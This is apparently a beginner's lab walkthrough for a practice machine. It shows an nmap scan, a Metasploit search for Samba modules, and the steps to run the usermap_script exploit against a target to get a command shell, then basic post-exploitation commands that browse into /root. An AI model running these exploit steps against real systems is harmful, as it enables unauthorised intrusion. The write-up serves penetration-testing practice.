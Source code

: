 # First Box

## Terminal setup

Either be in root or use sudo. 
Create three tabs (VPN, NMAP, HACK).

## Enumeration

First scans

```
# nmap -sV -A -oN output.txt. <ip address>
```

search in metasploit

```
# msfconsole

msf5> search samba
```

Review the excellent ranked modules
```
msf5> info /exploit/linux/samba
msf5> info /exploit/multi/samba/usermap_script
```
## Attack

To execute
```
msf5> use /exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) >  show options
msf5 exploit(multi/samba/usermap_script) >  set RHOST <ip address>
msf5 exploit(multi/samba/usermap_script) >  exploit
```

This will create a command shell back in the terminal

## Endgame

summary
```
id
pwd
cd /home/<user>
cd /root
```
